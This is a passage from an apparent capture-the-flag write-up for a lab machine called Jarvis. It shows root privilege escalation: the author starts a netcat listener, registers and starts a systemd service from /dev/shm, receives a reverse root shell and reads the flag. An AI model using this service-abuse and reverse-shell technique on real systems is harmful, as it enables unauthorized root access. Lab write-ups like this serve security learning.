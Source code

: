 ```
pepper@jarvis:/var/www/html$ 

```

Start a new netcat listener.

```
└─$ sudo nc -nvlp 80                                 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80

```

Finally, enable the service which creates the required symlinks in the service directories, and then start it:

```
pepper@jarvis:/var/www/html$ systemctl enable /dev/shm/av.service
systemctl enable /dev/shm/av.service
Created symlink /etc/systemd/system/multi-user.target.wants/av.service -> /dev/shm/av.service.
Created symlink /etc/systemd/system/av.service -> /dev/shm/av.service.
pepper@jarvis:/var/www/html$ systemctl start av.service
systemctl start av.service
pepper@jarvis:/var/www/html$ 
```

In the netcat listener, we get a shell as root, and we can grab the root flag.

```
└─$ sudo nc -nvlp 80
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:56320.
bash: cannot set terminal process group (1623): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# cat /root/root.txt
cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
root@jarvis:/# ​ ​ ​ ​ ​
```

## Resources
